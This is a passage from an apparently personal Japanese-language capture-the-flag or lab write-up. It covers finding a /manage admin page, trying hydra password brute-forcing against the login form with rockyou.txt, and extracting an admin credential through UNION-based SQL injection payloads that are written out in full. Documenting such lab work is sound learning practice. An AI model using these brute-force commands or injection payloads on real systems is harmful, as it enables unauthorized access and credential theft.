 ```c
/manage               (Status: 301) [Size: 315] [--> http://172.20.15.115/manage/]
/server-status        (Status: 403) [Size: 278]                                   
                                                                                  
===============================================================
2024/07/03 10:08:23 Finished
===============================================================
```
  
`manage`というページを発見しアクセスしてみる。  
すると、管理者ログインページに遷移した。ここからきっかけを掴みたいと考える  
  
<br>
  
## パスワードクラック
`hydra`でユーザ名含めて総当たりってどんくらい時間かかるかな？  
それなら`sqlインジェクション`であたりが付くか試した方がよいかな？  
なんて考えてユーザIDのフォームを押下したら、履歴に`@dmin@dmin@min`とでてきた。  
**胡散臭すぎやしねぇかい**。  
ついべらんめえ口調になるぐらい罠感が半端ない。  
・・・が、`splインジェクション`が苦手な当方としては、これで当てが付くならとりあえずやってみようとおもい`hydra`を実行  
・・・・・・１、２、ぽかん。  
**ユーザIDの履歴ってブラウザが保持してるもんじゃね？**  
そもそも`web技術`を突きつめて勉強してこなかった弊害がここで露呈。慣れもあるかもしんないが、こういう細かいハズイことが結構ある。  
とはいえ実行したので、それはそれとして記しておく
```c
hydra -f -l @dmin@dmin@dmin -P /usr/share/wordlists/rockyou.txt 172.20.15.115 http-post-form '/manage/:user=^USER^&password=^PASS^&login=login:パスワードを入力してください'
```
  
実は当初webのフォームに対する`hydra`の実行の仕方を分かっておらず、以下の方法で実行していた。  
```c
hydra -l @dmin@dmin@dmin -P /usr/share/wordlists/rockyou.txt http://172.20.15.115/manage/
```
  
これじゃダメなのね。`http-post-form`てのをつけると、フォームに対してPOSTを投げるみたいなオプションが付加されるっぽい  
だから`POSTリクエストのデータフォーマット`を確認して、それに合わせる形で投げないといけないみたいだった。勉強になった。  
  
<br>
  
まぁ実行したものの、`hydra`じゃもううまくいかんだろうから、`sqlインジェクション`を試すしかないと諦める。  
  
<br> 
  
### マジ嫌いなSQLインジェクション
いつまで経っても覚えられんSQL構文。  
スキーマからテーブルとカラム名取れればいいんだろうと思って色々試行。  
カラム数合わせるのと、データ型合わせるの忘れないように注意する。  
取りあえず色々やってみてぴったりハマったのが以下の入力値。  
`' OR 'a' = 'a' UNION SELECT null,null,TABLE_NAME,COLUMN_NAME,null FROM INFORMATION_SCHEMA.COLUMNS ;`    
`' OR 'a' = 'a' UNION SELECT null,null,name,password,null FROM admin_users ;`
  
これで管理者アカウントを`kibi-dango`:`z7ZDTyVa9L#9Yg`と特定  
忘れてたけど、まず`UNION`で適当に入力してみて、出力されずもエラーにならなかったのでいけると判断した。
  